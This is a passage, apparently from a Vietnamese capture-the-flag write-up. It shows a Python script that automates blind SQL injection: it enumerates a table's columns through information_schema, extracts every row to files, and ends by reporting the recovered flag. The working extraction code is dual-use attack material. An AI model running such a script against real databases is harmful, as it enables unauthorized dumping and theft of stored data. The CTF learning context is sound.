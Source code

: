 ```python
                break
        if not found:
            break
        index += 1
    print()
    return extracted_value
# 1️⃣ Nhập tên bảng cần brute-force
table_name = input("Nhập tên bảng cần brute-force cột và dữ liệu: ")
# 2️⃣ Brute-force tên các cột trong bảng
column_names = []
column_index = 0
while True:
    column_name = brute_force_sql(
        f"SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' LIMIT 1 OFFSET {column_index}",
        f"Column Name {column_index + 1}"
    )
    if column_name == "":
        break
    column_names.append(column_name)
    column_index += 1
# Lưu danh sách cột vào file
with open(f"{table_name}_columns.txt", "w") as f:
    for col in column_names:
        f.write(col + "\n")
print("\n📋 List of Columns:")
for i, col in enumerate(column_names, 1):
    print(f"  {i}. {col}")
print(f"\n✅ Danh sách cột đã được lưu vào file '{table_name}_columns.txt'")
# 3️⃣ Brute-force dữ liệu trong từng cột
for column in column_names:
    print(f"\n🔍 Extracting data from column: {column}")
    extracted_data = []
    row_index = 0
    while True:
        row_value = brute_force_sql(
            f"SELECT {column} FROM {table_name} LIMIT 1 OFFSET {row_index}",
            f"{column} - Row {row_index + 1}"
        )
        if row_value == "":
            break
        extracted_data.append(row_value)
        row_index += 1
    # Lưu dữ liệu vào file
    with open(f"{table_name}_{column}.txt", "w") as f:
        for row in extracted_data:
            f.write(row + "\n")
    print(f"✅ Dữ liệu từ cột '{column}' đã được lưu vào '{table_name}_{column}.txt'")
```

Kết quả thu được: bảng `flag` có 1 cột tên `secret`, trong cột `secret` có flag `flag{this_is_flag}`:
